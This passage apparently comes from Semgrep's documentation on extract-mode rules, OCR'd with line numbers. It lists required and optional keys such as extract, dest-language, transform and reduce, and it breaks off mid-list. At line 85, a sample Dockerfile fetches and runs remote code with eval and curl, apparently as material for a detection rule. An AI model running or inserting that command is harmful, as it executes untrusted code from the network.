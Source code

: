  81 |   
 82 | \`\`\`dockerfile  
 83 | FROM fedora  
 84 | RUN dnf install \-y unzip zip curl which  
 85 | RUN eval \`curl \-s "http://www.very-secure-website.net"\`  
 86 | \`\`\`  
 87 |   
 88 | \#\#\# Extract mode rule schema  
 89 |   
 90 | Extract mode rules \*\*require\*\* the following \[usual Semgrep rule keys\](/writing-rules/rule-syntax/\#required):  
 91 |   \- \`id\`  
 92 |   \- \`languages\`  
 93 |   \- One of \`pattern\`, \`patterns\`, \`pattern-either\`, or \`pattern-regex\`  
 94 |   
 95 | Extract mode rules \*\*also require\*\* two additional fields:  
 96 |   \- \`extract\`  
 97 |   \- \`dest-language\`  
 98 |   
 99 | Extract mode has two \*\*optional\*\* fields:  
100 |   \- \`reduce\`  
101 |   \- \`json\`  
102 |   
103 | The fields specific to extract mode are further explained in the sections below.  
104 |   
105 | \#\#\#\# \`extract\`  
106 |   
107 | The \`extract\` key is required in extract mode. The value must be a metavariable appearing in your pattern(s). Semgrep uses the code bound to the metavariable for subsequent queries of non-extract mode rules targeting \`dest-language\`.  
108 |   
109 | \#\#\#\# \`dest-language\`  
110 |   
111 | The \`dest-language\` key is required in extract mode. The value must be a \[language tag\](/writing-rules/rule-syntax/\#language-extensions-and-languages-key-values).  
112 |   
113 | \#\#\#\# \`transform\`  
114 |   
115 | The \`transform\` is an optional key in the extract mode. The value of this key specifies whether the extracted content is parsed as raw source code or as a JSON array.  
116 |   
117 | The value of \`transform\` key must be one of the following:  
118 | \<dl\>  
119 |     \<dt\>\<code\>no\_transform\</code\>\</dt\>  
120 |     \<dd\>\<p\>Extract the matched content as raw source code. This is the \<b\>default\</b\> value.\</p\>\</dd\>  
121 |     \<dt\>\<code\>concat\_json\_string\_array\</code\>\</dt\>  
122 |     \<dd\>\<p\>Extract the matched content as a JSON array. Each element of the array correspond to a line the resulting source code. This value is useful in extracting code from JSON formats such as Jupyter Notebooks.\</p\>\</dd\>  
123 | \</dl\>  
124 |   
125 | \#\#\#\# \`reduce\`  
126 |   
127 | The \`reduce\` key is optional in extract mode. The value of this key specifies a method to combine the ranges extracted by a single rule within a file.  
128 |   
129 | The value of \`reduce\` key must be one of the following:  
130 | \<dl\>  
131 |     \<dt\>\<code\>separate\</code\>\</dt\>  
132 |     \<dd\>\<p\>Treat all matched ranges as separate units for subsequent queries. This is the \<b\>default\</b\> value.\</p\>\</dd\>  
133 |     \<dt\>\<code\>concat\</code\>\</dt\>  